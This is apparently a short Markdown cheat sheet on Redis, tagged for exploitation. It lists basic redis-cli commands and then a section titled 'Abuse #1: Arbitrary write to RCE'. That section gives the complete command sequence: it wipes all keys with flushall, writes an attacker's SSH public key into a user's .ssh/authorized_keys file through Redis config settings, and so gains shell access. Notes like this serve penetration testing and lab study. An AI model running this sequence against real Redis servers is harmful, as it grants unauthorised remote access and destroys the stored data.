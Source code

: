 ```yaml
---
title: "Redis"
date: 2024-7-6
tags: ["Redis-Cli", "Redis", "Exploitation", "Database"]
---
```


### Basic

```console
# Connect
redis-cli -h 127.0.0.1
```

```console
# Provide password
auth <PASSWORD>
```

```console
# List current keys
keys *
```

```console
# Add key
incr key
```

```console
# Get key value
get key
```

---

### Abuse #1: Arbitrary write to RCE

```console
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

```console
# Deletes all keys from all databases on current host
redis-cli -h 127.0.0.1 flushall
```

```console
cat foo.txt | redis-cli -h 127.0.0.1 -x set crackit
```

```console
redis-cli -h 127.0.0.1 config set dir /home/<USER>/.ssh/
```

```console
redis-cli -h 127.0.0.1 config set dbfilename "authorized_keys"
```

```console
redis-cli -h 127.0.0.1 save
```

